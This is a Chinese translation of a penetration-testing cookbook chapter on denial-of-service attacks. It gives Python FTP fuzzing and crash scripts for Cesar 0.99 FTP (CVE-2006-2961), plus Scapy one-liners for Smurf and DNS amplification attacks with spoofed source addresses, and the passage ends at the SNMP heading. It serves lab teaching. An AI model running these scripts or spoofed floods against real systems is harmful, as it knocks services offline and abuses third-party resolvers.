


第六章 拒绝服务
作者：Justin Hutchens
译者：飞龙
任何时候，当你通过互联网访问公开资源，甚至通过内部网络访问小型社区时，重要的是要考虑拒绝服务（DoS）攻击的风险。 DoS 攻击可能令人沮丧，并且可能非常昂贵。 最糟糕的是，这些威胁往往是一些最难以缓解的威胁。 为了能够正确评估对网络和信息资源的威胁，必须了解现有的 DoS 威胁的类型以及与之相关的趋势。
在单独讨论列出的每个秘籍之前，我们应该强调一些基本原则，并了解它们如何与本章中讨论的 DoS 攻击相关。 我们将在接下来的秘籍中讨论的 DoS 攻击可以分为缓冲区溢出，流量放大攻击或资源消耗攻击。 我们将按此顺序讨论与这些类型的攻击的工作原理相关的一般原则。
缓冲区溢出是一种编程漏洞，可能导致应用程序，服务或整个底层操作系统的拒绝服务。 一般来说，缓冲区溢出能够导致拒绝服务，因为它可能导致任意数据被加载到非预期的内存段。 这可能会中断执行流程，并导致服务或操作系统崩溃。 流量放大 DoS 攻击能够通过消耗特定服务器，设备或网络可用的网络带宽来产生 DoS 条件。 流量放大攻击需要两个条件才能成功。 这些条件如下：
- 重定向：攻击者必须能够请求可以重定向到受害者的响应。 这通常通过 IP 欺骗来实现。 因为 UDP 不是面向连接的协议，所以使用 UDP 作为其相关的传输层协议的大多数应用层协议，可以用于通过伪造的请求，将服务响应重定向到其他主机。
- 放大：重定向的响应必须大于请求该响应的请求。 响应字节大小和请求字节大小的比率越大，攻击就越成功。
例如，如果发现了生成 10 倍于相关请求的响应的 UDP 服务，则攻击者可以利用该服务来潜在地生成 10 倍的攻击流量，而不是通过将伪造的请求发送到 漏洞服务，以可能最高的速率传输。 资源消耗攻击是产生如下的条件的攻击，其中主机服务器或设备的本地资源被消耗到一定程度，使得这些资源不再能够用于执行其预期的操作功能。 这种类型的攻击可以针对各种本地资源，包括内存，处理器性能，磁盘空间或并发网络连接的可持续性。
6.1 使用模糊测试来识别缓冲区溢出
识别缓冲区溢出漏洞的最有效的技术之一是模糊测试。 模糊测试通过将精巧的或随机数据传递给函数，来测试与各种输入相关的结果。 在正确的情况下，输入数据可能逃离其指定的缓冲区，并流入相邻的寄存器或内存段。 此过程将中断执行流程并导致应用程序或系统崩溃。 在某些情况下，缓冲区溢出漏洞也可以用于执行未经授权的代码。 在这个秘籍中，我们会讨论如何通过开发自定义的Fuzzing工具，来测试缓冲区溢出漏洞。
准备
为了执行远程模糊测试，你需要有一个运行 TCP 或 UDP 网络服务的系统。 在提供的示例中，使用了拥有 FTP 服务的 Windows XP 系统。 有关设置 Windows 系统的更多信息，请参阅本书第一章的“安装 Windows Server”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。
工作原理
Python 是一种优秀的脚本语言，可用于高效开发自定义的模糊测试工具。 当评估 TCP 服务时，套接字函数可用于简化执行完全三次握手序列，和连接到监听服务端口的过程。 任何模糊脚本的主要目的是，将数据作为输入发送到任何给定的函数并评估结果。 我开发了一个脚本，可以用来模糊测试 FTP 服务的验证后的功能，如下所示：
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 6:
print "Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Payload] [Interval] [Maximum]"
print "Example - ./ftp_fuzz.py 10.0.0.5 21 A 100 1000"
print "Example will fuzz the defined FTP service with a series of payloads"
print "to include 100 'A's, 200 'A's, etc... up to the maximum of 1000"
sys.exit()
target = str(sys.argv[1])
port = int(sys.argv[2])
char = str(sys.argv[3])
i = int(sys.argv[4])
interval = int(sys.argv[4])
max = int(sys.argv[5])
user = raw_input(str("Enter ftp username: "))
passwd = raw_input(str("Enter ftp password: "))
command = raw_input(str("Enter FTP command to fuzz: "))
while i <= max:
try:
payload = command + " " + (char * i)
print "Sending " + str(i) + " instances of payload (" + char + ") to target"
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect((target,port))
s.recv(1024)
s.send('USER ' + user + '\r\n')
s.recv(1024)
s.send('PASS ' + passwd + '\r\n')
s.recv(1024)
s.send(payload + '\r\n')
s.send('QUIT\r\n')
s.recv(1024)
s.close()
i = i + interval
except:
print "\nUnable to send...Server may have crashed"
sys.exit()
print "\nThere is no indication that the server has crashed"
脚本的第一部分定义了 Python 解释器的位置，并导入所需的库。 第二部分检查提供的参数数量，以确保其与脚本的适当用法一致。 脚本的第三部分定义将在整个脚本执行期间使用的变量。 其中几个变量从系统参数中接收到它们的值，这些参数在执行时传递给脚本。 剩余的变量通过接受脚本的用户的输入来定义。 最后，脚本的其余部分定义了模糊测试过程。 我们执行ftp_fuzz.py文件，如下：
root@KaliLinux:~# ./ftp_fuzz.py
Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Payload] [Interval] [Maximum]
Example - ./ftp_fuzz.py 10.0.0.5 21 A 100 1000
Example will fuzz the defined FTP service with a series of payloads to include 100 'A's, 200 'A's, etc... up to the maximum of 1000
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 A 100 1000
Enter ftp username: anonymous
Enter ftp password: user@mail.com
Enter FTP command to fuzz: MKD
Sending 100 instances of payload (A) to target
Sending 200 instances of payload (A) to target
Sending 300 instances of payload (A) to target
Sending 400 instances of payload (A) to target
Sending 500 instances of payload (A) to target
Sending 600 instances of payload (A) to target
Sending 700 instances of payload (A) to target
Sending 800 instances of payload (A) to target
Sending 900 instances of payload (A) to target
Sending 1000 instances of payload (A) to target
There is no indication that the server has crashed
如果脚本在没有适当数量的系统参数的情况下执行，脚本将返回预期的用法。有几个值必须作为系统参数来包含。要传递给脚本的第一个参数是目标 IP 地址。此 IP 地址是与运行所需模糊测试的 FTP 服务的系统相关的 IP 地址。下一个参数是运行 FTP 服务的端口号。在大多数情况下，FTP 在 TCP 端口 21 中运行。载荷定义了要批量传递到服务的字符或字符序列。 interval参数定义了在一次迭代中传递给 FTP 服务的载荷实例数。参数也是这样的数量，通过该数量，载荷实例的数量将随着每次连续迭代增加到最大值。此最大值由最后一个参数的值定义。在使用这些系统参数执行脚本后，它将请求 FTP 服务的身份验证凭证，并询问应该对哪个身份验证后的功能进行模糊测试。在提供的示例中，模糊测试对 IP 地址172.16.36.134的 Windows XP 主机的 TCP 端口 21 上运行的 FTP 服务执行。匿名登录凭据传递给了具有任意电子邮件地址的 FTP 服务。此外，一系列 As 被传递到 MKD 验证后的功能，从 100 个实例开始，并每次增加 100，直到达到最大 1000 个实例。同样的脚本也可以用来传递载荷中的一系列字符：
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 ABCD 100 500
Enter ftp username: anonymous
Enter ftp password: user@mail.com
Enter FTP command to fuzz: MKD
Sending 100 instances of payload (ABCD) to target
Sending 200 instances of payload (ABCD) to target
Sending 300 instances of payload (ABCD) to target
Sending 400 instances of payload (ABCD) to target
Sending 500 instances of payload (ABCD) to target
There is no indication that the server has crashed
在所提供的示例中，载荷被定义为ABCD，并且该载荷的实例被定义为 100 的倍数，直到最大值 500。
工作原理
一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。 此秘籍中讨论的特定脚本的工作原理是，在服务或操作系统崩溃的情况下，套接字将不再接受输入，并且脚本将无法完成整个载荷注入序列。 如果发生这种情况，脚本需要使用Ctrl + C强制关闭。在这种情况下，脚本会返回一个标志，表示后续的载荷无法发送，并且服务器可能已崩溃。
6.2 FTP 远程服务的缓冲区溢出 DoS 攻击
在正确的情况下，输入数据可能逃离其指定的缓冲区并流入相邻的寄存器或内存段。 此过程将中断执行流程并导致应用程序或系统崩溃。 在某些情况下，缓冲区溢出漏洞也可以用于执行未经授权的代码。 在这个特定的秘籍中，我们基于 Cesar 0.99 FTP 服务的缓冲区溢出，展示如何执行 DoS 攻击的示例。
准备
为了执行远程模糊测试，你需要有一个运行 TCP 或 UDP 网络服务的系统。 在提供的示例中，使用了拥有 FTP 服务的 Windows XP 系统。 有关设置 Windows 系统的更多信息，请参阅本书第一章的“安装 Windows Server”秘籍。 此外，本节需要使用文本编辑器（如 VIM 或 Nano）将脚本写入文件系统。 有关编写脚本的更多信息，请参阅本书第一章的“使用文本编辑器（VIM 和 Nano）”秘籍。
操作步骤
有一个公开披露的漏洞与 Cesar 0.99 FTP 服务相关。 此漏洞由常见漏洞和披露（CVE）编号系统定义为 CVE-2006-2961。 通过对此漏洞进行研究，显然可以通过向 MKD 函数发送换行字符的验证后序列，来触发基于栈的缓冲区溢出。 为了避免将\ n转义序列传递给 Python 脚本，以及之后在提供的输入中正确解释它的相关困难，我们应该修改先前秘籍中讨论的脚本。 然后，我们可以使用修改的脚本来利用此现有漏洞：
#!/usr/bin/python
import socket
import sys
if len(sys.argv) != 5:
print "Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Interval] [Maximum]"
print "Example - ./ftp_fuzz.py 10.0.0.5 21 100 1000"
print "Example will fuzz the defined FTP service with a series of line break "
print "characters to include 100 '\\n's, 200 '\\n's, etc... up to the maximum of 1000"
sys.exit()
target = str(sys.argv[1])
port = int(sys.argv[2])
i = int(sys.argv[3])
interval = int(sys.argv[3])
max = int(sys.argv[4])
user = raw_input(str("Enter ftp username: "))
passwd = raw_input(str("Enter ftp password: "))
command = raw_input(str("Enter FTP command to fuzz: "))
while i <= max:
try:
payload = command + " " + ('\n' * i)
print "Sending " + str(i) + " line break characters to target"
s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
connect=s.connect((target,port))
s.recv(1024)
s.send('USER ' + user + '\r\n')
s.recv(1024)
s.send('PASS ' + passwd + '\r\n')
s.recv(1024)
s.send(payload + '\r\n')
s.send('QUIT\r\n')
s.recv(1024)
s.close()
i = i + interval
except:
print "\nUnable to send...Server may have crashed"
sys.exit()
print "\nThere is no indication that the server has crashed"
对脚本所做的修改包括，修改使用描述和删除作为提供的参数的载荷，然后将换行载荷硬编码到要按顺序发送的脚本中。
root@KaliLinux:~# ./ftp_fuzz.py
Usage - ./ftp_fuzz.py [Target-IP] [Port Number] [Interval] [Maximum]
Example - ./ftp_fuzz.py 10.0.0.5 21 100 1000
Example will fuzz the defined FTP service with a series of line break characters to include 100 '\n's, 200 '\n's, etc... up to the maximum of 1000
root@KaliLinux:~# ./ftp_fuzz.py 172.16.36.134 21 100 1000
Enter ftp username: anonymous
Enter ftp password: user@mail.com
Enter FTP command to fuzz: MKD
Sending 100 line break characters to target
Sending 200 line break characters to target
Sending 300 line break characters to target
Sending 400 line break characters to target
Sending 500 line break characters to target
Sending 600 line break characters to target
Sending 700 line break characters to target
^C
Unable to send...Server may have crashed
如果脚本在没有适当数量的系统参数的情况下执行，脚本将返回预期的用法。 然后，我们可以执行脚本并发送一系列载荷，它们的数量为 100 的倍数，最大为 1000。在发送 700 个换行符的载荷后，脚本停止发送载荷，并处于空闲状态。 在一段时间不活动后，脚本使用Ctrl + C被强制关闭。脚本表示它已经无法发送字符，并且远程服务器可能已经崩溃。 看看下面的截图：
通过返回到运行 Cesar 0.99 FTP 服务的 Windows XP 主机，我们可以看到server.exe应用程序崩溃了。 要在拒绝服务后恢复操作，必须手动重新启动 Cesar FTP 服务。
工作原理
一般来说，缓冲区溢出能够导致拒绝服务，因为它们可能导致任意数据被加载到非预期的内存段。 这可能中断执行流程，并导致服务或操作系统崩溃。 此秘籍中讨论的特定脚本的工作原理是，在服务或操作系统崩溃的情况下，套接字将不再接受输入，并且脚本将无法完成整个有效载荷注入序列。 如果发生这种情况，脚本需要使用Ctrl + C强制关闭。在这种情况下，脚本将返回一个标识，表明后续载荷无法发送，并且服务器可能已崩溃。
6.3 Smurf DoS 攻击
smurf 攻击是历史上用于执行分布式拒绝服务（DDoS）放大攻击的最古老的技术之一。 此攻击包括向网络广播地址发送一系列 ICMP 回响请求，带有伪造的源 IP 地址。 当广播此回显请求时，LAN 上的所有主机会同时对收到的每个伪造请求的目标进行回复。 这种技术对现代系统的效率较低，因为大多数系统不会回复 IP 定向的广播流量。
准备
要执行smurf攻击，您需要有一个LAN，上面运行多个系统。 提供的示例将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。
操作步骤
为了尝试执行传统的 smurf 攻击，Scapy 可以用于从零开始构建必要的数据包。 为了从 Kali Linux 命令行使用 Scapy，请从终端使用scapy命令，如下所示。 为了向广播地址发送 ICMP 请求，我们必须首先构建此请求的层级。 我们将需要构建的第一层是 IP 层：
root@KaliLinux:~# scapy Welcome to Scapy (2.2.0)
>>> i = IP()
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
\options\
>>> i.dst = "172.16.36.255"
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.224
dst= 172.16.36.255
\options\
要构建我们的请求的 IP 层，我们应该将 IP 对象赋给变量i。 通过调用display()函数，我们可以确定该对象的属性配置。 通常，发送和接收地址都设为回送地址127.0.0.1。 可以通过将i.dst设置为广播地址的字符串值，来更改目标地址并修改这些值。 通过再次调用display()函数，我们可以看到，不仅更新了目的地址，而且Scapy也会自动将源 IP 地址更新为与默认接口相关的地址。 现在我们已经构建了请求的 IP 层，我们应该继续构建 ICMP 层：
>>> ping = ICMP()
>>> ping.display()
###[ ICMP ]###
type= echo-request
code= 0
chksum= None
id= 0x0
seq= 0x0
要构建我们的请求的 ICMP 层，我们将使用与 IP 层相同的技术。 默认情况下，ICMP 层已配置为执行回显请求。 现在我们已经创建了 IP 和 ICMP 层，我们需要通过堆叠这些层来构造请求：
>>> request = (i/ping)
>>> request.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= icmp
chksum= None
src= 172.16.36.224
dst= 172.16.36.255
\options\
###[ ICMP ]###
type= echo-request
code= 0
chksum= None
id= 0x0
seq= 0x0
>>> send(request)
.
Sent 1 packets.
可以通过使用斜杠分隔变量，来堆叠 IP 和 ICMP 层。 然后可以将这些层及赋给表示整个请求的新变量。 然后可以调用display()函数来查看请求的配置。 一旦建立了请求，就可以将其传递给函数。 可以使用 Wireshark 或 TCPdump 等数据包捕获工具来监控结果。 在提供的示例中，Wireshark 显示，LAN 上的两个 IP 地址响应了广播回响请求：

实际上，两个响应地址不足以执行有效的 DoS 攻击。 如果这个练习复制到另一个具有半现代化主机的实验室中，结果很可能是类似的。 在有足够的响应地址来触发拒绝服务的情况下，源地址将需要替换为了攻击目标的 IP 地址：
>>> send(IP(dst="172.16.36.255",src="172.16.36.135")/ ICMP(),count=100,verbose=1)
......................................................................... ...........................
Sent 100 packets.
在提供的示例中，Scapy 的单行命令用于执行与之前讨论的相同操作，但此时除外，源 IP 地址被伪造为 LAN 上另一个系统的地址。 此外，count可用于按顺序发送多个请求。
工作原理
放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：
- 用于执行攻击的协议不验证请求源
- 来自所使用的网络功能的响应应该显着大于用于请求它的请求。
传统 smurf 攻击的效率取决于 LAN 上响应 IP 定向的广播流量的主机。 这种主机从目标系统的伪造 IP 地址接收 ICMP 广播回响请求，然后针对接收到的每个请求同时返回 ICMP 回响应答。
6.4 DNS 放大 DoS 攻击
DNS放大攻击通过对给定域执行所有类型记录的伪造查询，来利用开放的 DNS 解析器。 通过同时向多个开放的解析器发送请求来使用 DDoS 组件，可以提高这种攻击的效率。
准备
为了模拟 DNS 放大攻击，你需要有一个本地名称服务器，或知道一个开放和可公开访问的名称服务器的 IP 地址。 提供的示例将 Ubuntu 用作扫描目标。 有关设置 Ubuntu 的更多信息，请参阅本书第一章中的“安装 Ubuntu Server”秘籍。
操作步骤
为了了解 DNS 放大的工作原理，可以使用基本的 DNS 查询工具，如host，dig或nslookup。 通过对与已建立的域相关的所有记录类型执行请求，你将注意到一些请求返回了相当大的响应：
root@KaliLinux:~# dig ANY google.com @208.67.220.220
; <<>> DiG 9.8.4-rpz2+rl005.12-P1 <<>> ANY google.com @208.67.220.220
;; global options: +cmd
;; Got answer:
;; ->>HEADER<<- opcode: QUERY, status: NOERROR, id: 41539
;; flags: qr rd ra; QUERY: 1, ANSWER: 17, AUTHORITY: 0, ADDITIONAL: 0
;; QUESTION SECTION: ;
google.com. IN ANY
;; ANSWER SECTION:
google.com. 181 IN A 74.125.232.101
google.com. 181 IN A 74.125.232.97
google.com. 181 IN A 74.125.232.102
google.com. 181 IN A 74.125.232.99
google.com. 181 IN A 74.125.232.104
google.com. 181 IN A 74.125.232.96
google.com. 181 IN A 74.125.232.100
google.com. 181 IN A 74.125.232.103
google.com. 181 IN A 74.125.232.105
google.com. 181 IN A 74.125.232.98
google.com. 181 IN A 74.125.232.110
google.com. 174 IN AAAA 2607:f8b0:4004:803::1007
google.com. 167024 IN NS ns2.
google.com.
google.com. 167024 IN NS ns1.
google.com.
google.com. 167024 IN NS ns3.
google.com.
google.com. 167024 IN NS ns4.
google.com.
google.com. 60 IN SOA ns1.
google.com. dns-admin.
google.com. 1545677 7200 1800 1209600 300
;; Query time: 7 msec
;; SERVER: 208.67.220.220#53(208.67.220.220)
;; WHEN: Thu Dec 19 02:40:16 2013
;; MSG SIZE rcvd: 35
在提供的示例中，与google.com域相关的所有记录类型的请求返回了一个响应，包含11个A记录，1个AAAA记录，4个NS记录和1个SOA记录。 DNS放大攻击的效率与响应大小直接相关。 我们现在将尝试使用 Scapy 中构建的数据包执行相同的操作。 要发送我们的 DNS 查询请求，我们必须首先构建此请求的层级。 我们需要构建的第一层是 IP 层：
root@KaliLinux:~# scapy Welcome to Scapy (2.2.0)
>>> i = IP()
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 127.0.0.1
dst= 127.0.0.1
\options\
>>> i.dst = "208.67.220.220"
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.180
dst= 208.67.220.220
\options\
要构建我们的请求的 IP 层，我们应该将 IP 对象赋给变量i。 通过调用display()函数，我们可以确定该对象的属性配置。 通常，发送和接收地址都设为回送地址127.0.0.1。 可以通过将i.dst设置为广播地址的字符串值，来更改目标地址并修改这些值。 通过再次调用display()函数，我们可以看到，不仅更新了目的地址，而且Scapy也会自动将源 IP 地址更新为与默认接口相关的地址。 现在我们已经构建了请求的 IP 层，我们应该继续构建 UDP 层：
>>> u = UDP()
>>> u.display()
###[ UDP ]###
sport= domain
dport= domain
len= None
chksum= None
>>> u.dport 53
要构建我们的请求的 UDP 层，我们将使用与IP层相同的技术。 在提供的示例中，UDP 对象赋给了u变量。 如前所述，可以通过调用display()函数来确定默认配置。 在这里，我们可以看到源和目标端口的默认值都列为domain。 您可能能猜到，这表示与端口 53 相关的 DNS服 务。DNS 是一种常见的服务，通常可以在网络系统上发现。 要确认这一点，我们可以通过引用变量名和属性直接调用该值。 既然已经构建了 IP 和 UDP 层，我们需要构建 DNS 层：
>>> d = DNS()
>>> d.display()
###[ DNS ]###
id= 0
qr= 0
opcode= QUERY
aa= 0
tc= 0
rd= 0
ra= 0
z= 0
rcode= ok
qdcount= 0
ancount= 0
nscount= 0
arcount= 0
qd= None
an= None
ns= None
ar= None
为了构建我们的请求的DNS层，我们将使用与 IP 和 UDP 层相同的技术。 在提供的示例中，DNS 对象赋给了d变量。 如前所述，可以通过调用display()函数来确定默认配置。 在这里，我们可以看到有几个值需要修改：
>>> d.rd = 1
>>> d.qdcount = 1
>>> d.display()
###[ DNS ]###
id= 0
qr= 0
opcode= QUERY
aa= 0
tc= 0
rd= 1
ra= 0
z= 0
rcode= ok
qdcount= 1
ancount= 0
nscount= 0
arcount= 0
qd= None
an= None
ns= None
ar= None
RD 位需要被激活; 这可以通过将rd值设置为 1 来实现。此外，需要为qdcount提供值0x0001; 这可以通过提供整数值 1 来完成。通过再次调用display()函数，我们可以验证是否已经调整了配置。 现在已经构建了 IP，UDP 和 DNS 层，我们需要构建一个 DNS 问题记录以分配给qd值：
>>> q = DNSQR()
>>> q.display()
###[ DNS Question Record ]###
qname= '.'
qtype= A
qclass= IN
为了构建 DNS 问题记录，我们将使用与 IP，UDP 和 DNS 层相同的技术。 在提供的示例中，DNS 问题记录已赋给q变量。 如前所述，可以通过调用display()函数来确定默认配置。 在这里，我们可以看到有几个值需要修改：
>>> q.qname = 'google.com'
>>> q.qtype=255
>>> q.display()
###[ DNS Question Record ]###
qname= 'google.com'
qtype= ALL
qclass= IN
qname值需要设置为要查询的域。 另外，qtype需要通过传递一个整数值 255 来设置为ALL。通过再次调用display()函数，我们可以验证是否已经调整了配置。 现在问题记录已经配置完毕，问题记录对象应该赋给DNS qd值：
>>> d.qd = q
>>> d.display()
###[ DNS ]###
id= 0
qr= 0
opcode= QUERY
aa= 0
tc= 0
rd= 1
ra= 0
z= 0
rcode= ok
qdcount= 1
ancount= 0
nscount= 0
arcount= 0
\qd\
|###[ DNS Question Record ]###
|
qname= 'google.com'
|
qtype= ALL
|
qclass= IN
an= None
ns= None
ar= None
我们可以通过调用display()函数来验证问题记录是否已赋给 DNS qd值。 现在已经构建了 IP，UDP 和 DNS 层，并且已经将相应的问题记录赋给 DNS 层，我们可以通过堆叠这些层来构造请求：
>>> request = (i/u/d)
>>> request.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= udp
chksum= None
src= 172.16.36.180
dst= 208.67.220.220
\options\
###[ UDP ]###
sport= domain
dport= domain
len= None
chksum= None
###[ DNS ]###
id= 0
qr= 0
opcode= QUERY
aa= 0
tc= 0
rd= 1
ra= 0
z= 0
rcode= ok
qdcount= 1
ancount= 0
nscount= 0
arcount= 0
\qd\
|###[ DNS Question Record ]###
| qname= 'google.com'
| qtype= ALL
| qclass= IN
an= None
ns= None
ar= None
可以通过使用斜杠分隔变量来堆叠 IP，UDP 和 DNS 层。 然后可以将这些层赋给表示整个请求的新变量。 然后可以调用display()函数来查看请求的配置。 在发送此请求之前，我们应该以相同的显示格式查看它，因为我们需要查看响应。 这样，我们可以更好地从视觉上理解请求和响应之间发生的放大。 这可以通过直接调用变量来完成：
>>> request
<IP frag=0 proto=udp dst=208.67.220.220 |<UDP sport=domain |<DNS rd=1 qdcount=1 qd=<DNSQR qname='google.com' qtype=ALL |> |>>>
一旦建立了请求，它就可以被传递给发送和接收函数，以便我们可以分析响应。 我们不会将它赋给一个变量，而是直接调用该函数，以便可以以相同的格式查看响应：
>>> sr1(request)
Begin emission:
....................Finished to send 1 packets.
.............................*
Received 50 packets, got 1 answers, remaining 0 packets
<IP version=4L ihl=5L tos=0x0 len=378 id=29706 flags= frag=0L ttl=128 proto=udp chksum=0x4750 src=208.67.220.220 dst=172.16.36.232 options=[] |<UDP sport=domain dport=domain len=358 chksum=0xf360 |<DNS id=0 qr=1L opcode=QUERY aa=0L tc=0L rd=1L ra=1L z=0L rcode=ok qdcount=1 ancount=17 nscount=0 arcount=0 qd=<DNSQR qname='google.com.' qtype=ALL qclass=IN |> an=<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.103' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.102' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.98' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.96' |<DNSRR rrname='google. com.' type=A rclass=IN ttl=188 rdata='74.125.228.99' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.110' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.100' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.97' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.104' |<DNSRR rrname='google. com.' type=A rclass=IN ttl=188 rdata='74.125.228.105' |<DNSRR rrname='google.com.' type=A rclass=IN ttl=188 rdata='74.125.228.101' |<DNSRR rrname='google.com.' type=AAAA rclass=IN ttl=234 rdata='2607 :f8b0:4004:803::1002' |<DNSRR rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns2.google.com.' |<DNSRR rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns1.google.com.' |<DNSRR rrname='google. com.' type=NS rclass=IN ttl=171376 rdata='ns3.google.com.' |<DNSRR rrname='google.com.' type=NS rclass=IN ttl=171376 rdata='ns4.google.com.' |<DNSRR rrname='google.com.' type=SOA rclass=IN ttl=595 rdata='\xc1\x06\ tdns-admin\xc0\x0c\x00\x17\xd0`\x00\x00\x1c \x00\x00\x07\x08\x00\x12u\ x00\x00\x00\x01,' |>>>>>>>>>>>>>>>>> ns=None ar=None |>>>
该响应确认了我们已成功构建所需的请求，并且我们已请求了一个相当大的有效内容，其中包括google.com域的11个A记录，1个AAAA记录，4个NS记录和1个SOA记录。 此练习清楚地表明，请求的响应明显大于请求本身。 为了使这个放大攻击有效，它需要通过伪造源 IP 地址重定向到我们的目标：
>>> i.src = "172.16.36.135"
>>> i.display()
###[ IP ]###
version= 4
ihl= None
tos= 0x0
len= None
id= 1
flags=
frag= 0
ttl= 64
proto= ip
chksum= None
src= 172.16.36.135
dst= 208.67.220.220
\options\
>>> request = (i/u/d)
>>> request
<IP frag=0 proto=udp src=172.16.36.135 dst=208.67.220.220 |<UDP sport=domain |<DNS rd=1 qdcount=1 qd=<DNSQR qname='google.com' qtype=ALL |> |>>>
将源 IP 地址值重新定义为目标系统的 IP 地址的字符串后，我们可以使用display()函数确认该值已调整。 然后我们可以重建我们的更改后的请求。 为了验证我们是否能够将 DNS 查询响应重定向到此伪造主机，我们可以在主机上启动 TCPdump：
admin@ubuntu:~$ sudo tcpdump -i eth0 src 208.67.220.220 -vv
[sudo] password for admin:
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
在提供的示例中，TCPdump 配置将捕获eth0接口上，来自208.67.220.220源地址（查询的DNS服务器的地址）的所有流量。 然后，我们可以使用send()函数发送我们的请求：
>>> send(request)
.
Sent 1 packets.
>>> send(request)
.
Sent 1 packets.
发送请求后，我们应该返回到 TCPdump 的内容，来验证 DNS 查询的响应是否返回给了受害服务器：
tcpdump: listening on eth0, link-type EN10MB (Ethernet), capture size 65535 bytes
19:07:12.926773 IP (tos 0x0, ttl 128, id 11341, offset 0, flags [none], proto UDP (17), length 350) resolver2.opendns.com.domain > 172.16.36.135. domain: [udp sum ok] 0 q: ANY? google.com. 16/0/0 google.com. A yyz08s13in-f4.1e100.net, google.com. A yyz08s13-in-f5.1e100.net, google. com. A yyz08s13-in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100. net, google.com. A yyz08s13-in-f2.1e100.net, google.com. A yyz08s13in-f0.1e100.net, google.com. A yyz08s13-in-f3.1e100.net, google.com. A yyz08s13-in-f1.1e100.net, google.com. A yyz08s13-in-f9.1e100.net, google. com. A yyz08s13-in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net, google.com. NS ns2.google.com., google.com. NS ns1.google.com., google. com. NS ns3.google.com., google.com. NS ns4.google.com., google.com. SOA ns1.google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322)
19:07:15.448636 IP (tos 0x0, ttl 128, id 11359, offset 0, flags [none], proto UDP (17), length 350) resolver2.opendns.com.domain > 172.16.36.135. domain: [udp sum ok] 0 q: ANY? google.com. 16/0/0 google.com. A yyz08s13in-f14.1e100.net, google.com. A yyz08s13-in-f6.1e100.net, google.com. A yyz08s13-in-f2.1e100.net, google.com. A yyz08s13-in-f0.1e100.net, google. com. A yyz08s13-in-f3.1e100.net, google.com. A yyz08s13-in-f1.1e100. net, google.com. A yyz08s13-in-f9.1e100.net, google.com. A yyz08s13in-f7.1e100.net, google.com. A yyz08s13-in-f8.1e100.net, google.com. A yyz08s13-in-f4.1e100.net, google.com. A yyz08s13-in-f5.1e100.net, google. com. NS ns2.google.com., google.com. NS ns1.google.com., google.com. NS ns3.google.com., google.com. NS ns4.google.com., google.com. SOA ns1. google.com. dns-admin.google.com. 1545677 7200 1800 1209600 300 (322)
这个执行 DNS 放大的整个过程，实际上可以用 Scapy 中的单行命令来执行。 此命令使用所有与上一个练习中讨论的相同的值。 然后可以修改count值以定义要发送到受害服务器的载荷响应数：
>>> send(IP(dst="208.67.220.220",src="172.16.36.135")/UDP()/DNS(rd=1,qdco unt=1,qd=DNSQR(qname="google.com",qtype=255)),verbose=1,count=2)
..
Sent 2 packets.
工作原理
放大攻击的原理是利用第三方设备，使网络流量压倒目标。 对于多数放大攻击，必须满足两个条件：
- 用于执行攻击的协议不验证请求源
- 来自所使用的网络功能的响应应该显着大于用于请求它的请求。
DNS 放大攻击的效率取决于 DNS 查询的响应大小。 另外，可以通过使用多个 DNS 服务器来增加攻击的威力。
6.5 SNMP 放大 DoS 攻击
